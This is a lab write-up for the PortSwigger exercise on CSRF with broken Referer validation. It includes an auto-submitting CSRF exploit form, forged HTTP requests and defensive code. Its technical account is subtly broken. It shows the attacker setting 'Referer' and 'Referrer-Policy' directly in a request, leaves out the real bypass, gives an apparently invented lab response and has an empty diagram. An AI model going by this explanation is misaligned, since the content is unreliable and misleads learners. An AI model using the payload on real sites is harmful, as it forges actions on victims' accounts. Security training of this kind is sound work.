

## Lab Exercise: CSRF with Broken Referer Validation

In this lab exercise, we will explore a scenario where a web application attempts to mitigate CSRF attacks by validating the `Referer` header but fails to handle certain edge cases correctly.

### Background Theory

The `Referer` header is used by browsers to indicate the URL of the page from which a request originated. Web applications often use this header to validate the origin of requests and prevent CSRF attacks. However, this approach has several limitations:

1. **Header Omission**: Some browsers may omit the `Referer` header in certain scenarios, such as when navigating from HTTPS to HTTP.
2. **Query Parameter Stripping**: Some browsers strip query parameters from the `Referer` header, leading to false negatives in validation.
3. **Header Manipulation**: Attackers can manipulate the `Referer` header to bypass validation.

### Lab Setup

For this lab, we will use the PortSwigger Web Security Academy, which provides a controlled environment to practice and learn about various web security vulnerabilities.

#### Step-by-Step Mechanics

1. **Identify the Vulnerability**: Determine that the web application is relying on the `Referer` header for CSRF protection.
2. **Craft the Exploit**: Create a malicious request that bypasses the `Referer` header validation.
3. **Deliver the Exploit**: Use the exploit server to deliver the malicious request to the victim.

### Complete Example

Let's walk through the complete example step-by-step.

#### Identify the Vulnerability

First, we need to identify that the web application is relying on the `Referer` header for CSRF protection. We can do this by inspecting the web application's behavior when the `Referer` header is present or absent.

```http
GET /vulnerable-endpoint HTTP/1.1
Host: vulnerable-app.com
Referer: http://trusted-source.com
```

If the web application accepts the request only when the `Referer` header matches a trusted source, it indicates that the application is using `Referer` header validation.

#### Craft the Exploit

Next, we need to craft a malicious request that bypasses the `Referer` header validation. Since some browsers strip query parameters from the `Referer` header, we can use a different approach to bypass this limitation.

We can set the `Referrer-Policy` header to `unsafe-url`, which ensures that the query parameters are not stripped from the `Referer` header.

```http
GET /vulnerable-endpoint HTTP/1.1
Host: vulnerable-app.com
Referer: http://trusted-source.com?query=param
Referrer-Policy: unsafe-url
```

#### Deliver the Exploit

Finally, we need to deliver the malicious request to the victim. We can use the exploit server provided by the PortSwigger Web Security Academy to deliver the request.

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Exploit</title>
</head>
<body>
    <form action="http://vulnerable-app.com/vulnerable-endpoint" method="POST">
        <input type="hidden" name="action" value="malicious-action">
        <input type="submit" value="Submit">
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```

When the victim visits the exploit page, the form is submitted automatically, sending the malicious request to the web application.

### Full HTTP Request and Response

Here is the full HTTP request and response for the exploit:

```http
POST /vulnerable-endpoint HTTP/1.1
Host: vulnerable-app.com
Referer: http://trusted-source.com?query=param
Referrer-Policy: unsafe-url
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

action=malicious-action
```

```http
HTTP/1.1 200 OK
Date: Tue, 01 Aug 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 17

Congratulations! You solved the lab.
```

### Mermaid Diagrams

Let's visualize the attack chain using a mermaid diagram:



### Pitfalls and Common Mistakes

1. **Relying Solely on Referer Header**: Relying solely on the `Referer` header for CSRF protection is not sufficient, as it can be manipulated or omitted.
2. **Ignoring Query Parameters**: Ignoring query parameters in the `Referer` header can lead to false negatives in validation.
3. **Not Using Secure Headers**: Not using secure headers like `Referrer-Policy` can make the application vulnerable to manipulation.

### How to Prevent / Defend

#### Detection

To detect CSRF vulnerabilities, you can use automated tools such as Burp Suite or OWASP ZAP. These tools can help identify endpoints that are susceptible to CSRF attacks.

#### Prevention

To prevent CSRF attacks, implement the following measures:

1. **CSRF Tokens**: Include unique tokens in both the form and the session to ensure that the request originated from the same user.
2. **SameSite Cookies**: Configure cookies to only be sent with requests originating from the same site.
3. **Secure Headers**: Use secure headers like `Referrer-Policy` to control how the `Referer` header is handled.

#### Secure Coding Fixes

Here is an example of a vulnerable and a secure version of a web application endpoint:

**Vulnerable Version**

```python
@app.route('/vulnerable-endpoint', methods=['POST'])
def vulnerable_endpoint():
    if request.form['action'] == 'malicious-action':
        # Perform malicious action
        return "Action performed"
    else:
        return "Invalid action"
```

**Secure Version**

```python
@app.route('/secure-endpoint', methods=['POST'])
def secure_endpoint():
    if request.form['action'] == 'malicious-action' and request.form['csrf_token'] == session['csrf_token']:
        # Perform malicious action
        return "Action performed"
    else:
        return "Invalid action"
```

In the secure version, a CSRF token is included in both the form and the session, ensuring that the request originated from the same user.

#### Configuration Hardening

Configure your web application to use secure headers and policies. Here is an example of configuring `Referrer-Policy` in an Nginx server:

```nginx
server {
    listen 80;
    server_name example.com;

    location / {
        add_header Referrer-Policy "strict-origin";
    }
}
```

### Practice Labs

For hands-on practice with CSRF vulnerabilities, you can use the following labs:

- **PortSwigger Web Security Academy**: Provides a controlled environment to practice and learn about various web security vulnerabilities, including CSRF.
- **OWASP Juice Shop**: A deliberately insecure web application for security training purposes, which includes CSRF challenges.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities, including CSRF.

By practicing in these environments, you can gain a deeper understanding of how to identify, exploit, and defend against CSRF vulnerabilities.

### Conclusion

Cross-Site Request Forgery (CSRF) is a serious security vulnerability that can lead to unauthorized actions being performed on behalf of authenticated users. By understanding the underlying mechanisms and implementing robust prevention measures, you can protect your web applications from CSRF attacks.

---
<!-- nav -->
[[04-How to Prevent  Defend Against CSRF|How to Prevent  Defend Against CSRF]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/09-Lab 8 CSRF with broken Referer validation/00-Overview|Overview]] | [[06-Lab Setup CSRF with Broken Referer Validation|Lab Setup CSRF with Broken Referer Validation]]
